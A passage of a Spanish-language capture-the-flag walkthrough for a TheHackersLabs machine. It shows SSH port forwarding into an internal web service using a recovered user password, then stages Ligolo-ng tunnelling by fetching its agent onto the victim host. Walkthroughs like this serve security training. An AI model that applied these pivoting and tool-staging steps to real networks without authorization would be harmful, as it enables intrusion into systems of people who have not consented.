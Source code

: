 Ahora que sabemos que existe el puerto 80 en la red interna necesitamos traernos mediante un tunel el trafico de ese puerto
Ahora indicamos que nuestro puerto 8000 de atacante sera el puerto 80 de la maquina victima:
```bash
ssh -L 8000:172.17.0.2:80 Sophia@192.168.100.30 # dolphins

The authenticity of host '192.168.100.30 (192.168.100.30)' can't be established.
ED25519 key fingerprint is SHA256:09ZSLxiw1tvVbTWbg6eZzfN1d3i5dWrpGIe+aCobTK4.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '192.168.100.30' (ED25519) to the list of known hosts.
Sophia@192.168.100.30's password: 
Linux TheHackersLabs-PaQueAigaLujo 6.1.0-37-amd64 #1 SMP PREEMPT_DYNAMIC Debian 6.1.140-1 (2025-05-22) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Fri Aug 22 21:33:29 2025 from 192.168.100.26
```

Vemos que se ejecuto correctamente nuestra instruccion mediante el codigo de estado
```bash
echo $?
0
```

**Ligolo** es un tunelador inverso que crea una VPN entre tu máquina atacante y la víctima, permitiéndote redirigir tráfico fácilmente.
Usamos **Ligolo** para crear el tunel y poder traernos el trafico de el objetivo a nuestra maquina **ligolo-ng_proxy_0.8.2_linux_amd64.tar.gz**:
```bash
https://github.com/nicocha30/ligolo-ng/releases/tag/v0.8.2
```

Descomprimimos el archivo:
```bash
tar -xzf ligolo-ng_proxy_0.8.2_linux_amd64.tar.gz

.rwxr-xr-x kali kali  19 MB Sat May 24 19:08:42 2025  proxy
```

Ya tenemos el **proxy** con permsos de ejecucion, En caso de que no los tenga aplicamos con este comando:
```bash
chmod +x proxy
```

Ahora desde la maquina victima con el usuario **Sophia** descargamos el agente de ligolo
```bash
wget https://github.com/nicocha30/ligolo-ng/releases/download/v0.8.2/ligolo-ng_agent_0.8.2_linux_amd64.tar.gz
```
